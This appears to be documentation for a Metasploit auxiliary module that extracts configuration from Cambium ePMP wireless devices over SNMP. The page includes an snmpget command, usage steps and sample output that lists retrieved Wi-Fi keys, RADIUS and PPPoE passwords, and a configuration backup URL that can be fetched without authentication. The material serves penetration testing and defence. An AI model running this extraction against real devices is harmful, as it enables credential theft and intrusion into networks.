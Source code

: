 Cambium devices (ePMP, PMP, Force, others) can be administered using SNMP. The device configuration contains IP addresses, keys, and passwords, amongst other information. This module uses SNMP to extract Cambium ePMP device configuration. On certain software versions, specific device configuration values can be accessed using SNMP RO string, even though only SNMP RW string should be able to access them, according to MIB documentation. The module also triggers full configuration backup, and retrieves the backup url. The configuration file can then be downloaded without authentication. The module has been tested primarily on Cambium ePMP current version (3.2.x, as of today), PMP, and Force units.

Note: If the backup url is not retrieved, it is recommended to increase the TIMEOUT and reduce the THREADS. Backup url can also be retrieved by quering the OID as follows:

```
snmpget -v2c -c public 1.3.3.7 1.3.6.1.4.1.17713.21.6.4.13.0

```

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/epmp_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/snmp/epmp_snmp_loot
msf auxiliary(epmp_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(epmp_snmp_loot) > set COMMUNITY private
msf auxiliary(epmp_snmp_loot) > run

msf auxiliary(epmp_snmp-final) > run

[*] Fetching System Information...

[+] 1.3.3.7
[+] SNMP System Name: Cambium
[+] SNMP System Description: Cambium
[+] Device UpTime: 0021:08:36:45
[+] U-boot version: U-Boot 9350_PX 1.1.4.e (Feb 24 2016 - 20:14:38) 

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: cambiumtrap
[+] SNMP Trap Server IP Address: Null 

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: SSID
[+] Wireless Interface Encryption Key: secretkey
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): 2 

[*] Fetching WIFI Radius Information...

[+] RADIUS server info:
[+] RADIUS server port: Null
[+] RADIUS server secret: Null
[+] Wireless Radius Username: cambium-station
[+] Wireless Radius Password: cambium 

[*] Fetching Network PPPoE Information...

[+] Network PPPoE Service Name: temp
[+] Network PPPoE Username: username
[+] Network PPPoE Password: password

[+] Cambium ePMP loot saved at /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_cambium_snmp_loot_838642.txt
[+] Configuration backed-up for direct download at: http://1.3.3.7/dl/3.2.2_00000000000001.json
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
